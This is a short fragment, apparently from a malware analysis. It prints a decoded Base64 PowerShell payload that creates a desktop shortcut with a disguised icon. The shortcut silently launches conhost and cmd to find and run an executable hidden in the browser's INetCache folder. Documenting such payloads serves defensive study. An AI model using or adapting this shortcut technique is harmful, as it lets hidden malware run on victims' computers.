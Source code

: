 <b>Base64 string decoded:</b>

$shell = New-Object -ComObject WScript.Shell;$desktop = [System.Environment]::GetFolderPath('Desktop');$shortcut = $shell.CreateShortcut("$desktop\%filename%.lnk");$shortcut.TargetPath = "C:\windows\system32\conhost.exe";$shortcut.WindowStyle = 7;$shortcut.Arguments = 'cmd.exe /c cd %USERPROFILE%\AppData\Local\Microsoft\Windows\INetCache & dir /s /B %filename%*.exe | cmd.exe /k';$shortcut.IconLocation = "%lnk%?.ico";$shortcut.Save();
